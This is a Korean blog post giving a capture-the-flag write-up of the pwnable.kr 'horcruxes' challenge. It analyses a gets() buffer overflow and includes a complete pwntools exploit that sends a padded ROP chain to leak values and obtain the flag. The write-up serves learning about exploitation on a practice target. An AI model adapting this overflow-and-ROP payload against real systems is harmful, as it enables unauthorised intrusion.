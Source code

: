 ```yaml
---
layout: post
title: "[pwnable.kr] horcruxes 풀이"
date: 2018-09-04 19:01
categories: "[Pwn]pwnable.kr"
tags: "#UnKN0wn"
---
```

>## horcruxes - [7pt]
### Voldemort concealed his splitted soul inside 7 horcruxes.
### Find all horcruxes, and ROP it!
### author: jiwon choi<br><br>
### ssh horcruxes@pwnable.kr -p2222 (pw:guest)

---

ROP를 사용하는 문제라네요

ssh로 연결해보면 `horcruxes`와 `readme`라는 파일이 있어요.

`horcruxes`를 IDA를 이용해 분석하기위해 scp 명령어를 사용했어요

> $ scp -P 2222 horcruxes@pwnable.kr:/home/horcruxes/horcruxes ~/

# 1. 프로그램 분석

{: refdef: style="text-align: center;"}
![init_ABCDEFG](/pic/pwnable_kr/horcruxes/hor_init_ABCDEFG.png)
{: refdef}

<center> ***init_ABCDEFG 함수*** </center>

전역변수 a,b,c,d,e,f,g의 값을 랜덤으로 정해주고 모든 합을 sum에 저장하는 함수인거 같네요

{: refdef: style="text-align: center;"}
![ropme](/pic/pwnable_kr/horcruxes/hor_ropme.png)
{: refdef}

<center> ***ropme 함수*** </center>

각 A,B,C,D,E,F,G 함수는 각각의 변수들의 값을 출력해주는 함수가 있어요

이리고 이 모든 변수값을 더한 sum 값과 gets로 입력한 값이 같으면 flag를 출력해주는 함수네요

그런데 이 각각의 함수에서 변수 값을 출력하기위해서는

계속 랜덤값으로 바뀌는 각각의 변수 값을 알아야하는데

불가능해요

그런데 `gets(s)` 부분에서 BOF가 일어나서 return 주소를 바꿔줄 수 있어요

이 부분을 이용해 exploit 코드를 짜봅시다

# 2. Exploit

```python
from pwn import *
#context.log_level='debug'

#connect ssh
s = ssh("horcruxes", "pwnable.kr", port=2222, password="guest")
#connect nc
n = s.remote("localhost", 9032)

#function address
func_A = 0x0809FE4B
func_B = 0x0809FE6A
func_C = 0x0809FE89
func_D = 0x0809FEA8
func_E = 0x0809FEC7
func_F = 0x0809FEE6
func_G = 0x0809FF05
ROPME = 0x0809FFFC

n.recvuntil('Menu:')
n.sendline('0')
n.recvuntil('earned? : ')

#ROP
payload = ""
payload += "A"*120      #buffer + sfp
payload += p32(func_A)  #return
payload += p32(func_B)
payload += p32(func_C)
payload += p32(func_D)
payload += p32(func_E)
payload += p32(func_F)
payload += p32(func_G)
payload += p32(ROPME)

n.sendline(payload)
total = 0

#calculate EXP
for i in range(0,7):
    n.recvuntil('EXP +')
    total += int(n.recvuntil(')')[:-1])
    log.info('total = ' + str(total))

#return to function 'ROPME'
n.recvuntil("Menu:")
n.sendline("0")
n.recvuntil("earned? : ")
n.sendline(str(total))

log.info("flag is : " + n.recv())
```

이런식으로 exploit 코드를 짜니 flag가 나오긴 했어요

그런데 한번씩 flag가 안나올 때가 있는데 아마 EXP값이

음수가 나올 경우가 있기 때문인거 같네요 

![exploit](/pic/pwnable_kr/horcruxes/hor_ex.png)

